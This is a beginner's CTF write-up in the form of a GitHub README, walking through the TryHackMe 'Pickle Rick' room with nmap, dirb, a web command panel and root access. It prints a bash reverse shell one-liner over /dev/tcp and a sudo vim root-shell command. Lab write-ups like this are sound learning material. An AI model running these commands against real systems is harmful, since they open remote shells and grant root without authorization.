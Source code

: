 # TryHackMe-PickleRick-CTF
This is a simple, fun, and beginner CTF. This is the first CTF room that I have completed on TryHackMe. It involves finding three secret ingredients to help Rick turn back into a human after turning himself into a pickle.

Here, I will highlight a quick walkthrough/step-by-step instruction for how I completed the room. Here on the README, I won't include exact commands I used in order to find the ingredients, but I will include hints to help (if you want the exact lines I used, I will create a cheatsheet with more step-by-step). As I stated before, this was my first room that I completed, so I had the help of some peers to help guide me through the processes. I did go a little overkill in this room as I tried to escalate privileges which was completely unecessary. Now, I will go forward with a walkthorugh as well as screenshots with how things should look. Finally, like I stated before, this is just what I did personally to complete the room.Good luck! 

![picklerick](https://user-images.githubusercontent.com/117850176/201009495-589059c2-e925-43ba-9269-6907607139e3.png)






<img width="556" alt="Screen Shot 2022-11-09 at 10 41 16 PM" src="https://user-images.githubusercontent.com/117850176/201009776-cfc2b1ff-b671-412a-9027-1132ca9c1bb2.png">

The first step to completing this machine is turning on the machine itself, this can be done by selecting task 1 and then pressing the green start machine button. Give this a minute and your personal IP will show up under the "active machine" heading - Keep this IP handy as you will be using this extremely frequently throughout the CTF.


Firstly, I wanted to see what the site would look like. To do this, I just entered the given IP on a firefox (or any other web browswer of your choice) into the search bar. Then a Rick and Morty themed site appeared.

(Put SS of site)

The first step that I took was to use a nmap scan with the given IP on the tryhackme. To do this, I started a command window in kali. Once the window was opened I used the nmap command and found that ports 22 and 80 were both running. 

(Put ss of nmap being used and port 22 and 80 running)

After seeing this, another one of the first steps that I did was to inspect the sites source code to see if I was able to find any hints that were left within the source code. Within the source code, there is a commented section of code that gave a username, keep this username in mind as this is essential information. I won't be giving the username here, so explore the source code and it should make itself apparent to you. 

Upon finding this username, this gave me the insight to attempt to find a password, because usernames and passwords go hand in hand. I then used the dirb command, here it is:
- dirb command
Dirb command is a web content scanner. It looks for existing or hidden web objects, making it a brute force strategy. After using this command I found a list of different directories. The directories that I found will be included in a screenshot below. I won't list eh direct dirb command that I used here but it will be located in the cheat sheet. I browsed each directory found on the website by using /(directory name). After exploring these different directories and I found a password, again this password will be located in the cheatsheet. 

Within the directories given, I was also directed to a login page. If you explore the directories given, you should find this releatively easily. Using the credentials we found in the earlier steps, you should be able to enter the login page. After logging in, you will be presented with a command line. 

(Put ss of login page, command line)

After seeing that a command line was given, I decided to host a netcat listener on my local kali machine on port 1234. I used this port because I knew nothing would be communicating on it. The exact command that I used will be provided via the chaeatsheet.11 Netcat is a command for reading and writing data between two computers. Next, I used a bash reverse shell command that I found on gtfobins, since I found this on a third party site, I will provide the command here. 
- bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'

After successfully running the reverse bash, I was given a shell through the Picklerick site, giving me access. 

Once I had the reverse shell running on my local kali machine, I just used a simple ls command to see what folders existed. I seen that there was a text file that may contain an ingredient. I then used another simple cat command to see the contents of this file. This gave me the first ingredient needed to answer. 

When I did the ls command there were other folders that I could explore. I decided to explore the home folder. To do this, I had to first change the directory. This can be done by using cd home. Once in the home folder, I once again used the ls command to see the contents of the home folder/directory. I seen a folder named rick and ubuntu. The rick folder seemed more appealing to me so Is into this folder. In the rick folder, there was a file straight up title second ingredient. Using the cat command once again, the second ingredient was found. 

Next, I wanted to gain root acess to the shell. I decided to use sudo -l and found that no password was needed and I could run any command. I then used another shell command found on gtfobins. This is it:
- sudo -u root vim -c ':!/bin/sh'
Using this command gave me root access. Once again, I did a ls command and seen a file called 3rd. I used the cat command one last time and this gave me the third and final ingredient. 

All in all, the steps seem very repetetive in this CTF. I had a great time completing this for my first one. I am looking forward to completing more and seeing what other tools I am able to use. 

The answers for this for will be located on the cheatsheet, but I HIGHLY reccomended just using trial and error. As you will learn a lot more and have a more fun time. 

Thank you for reading my write up! I want to document most of, if not, all of my CTFs so that I may keep a journal and others can also view it. Personally for me it was hard to get started at first. But having people help me along the way was so beneficial, so if I can be that for someone else that would be awesome. Anyway, goodluck on any CTFs you look to tackle and happy hacking!
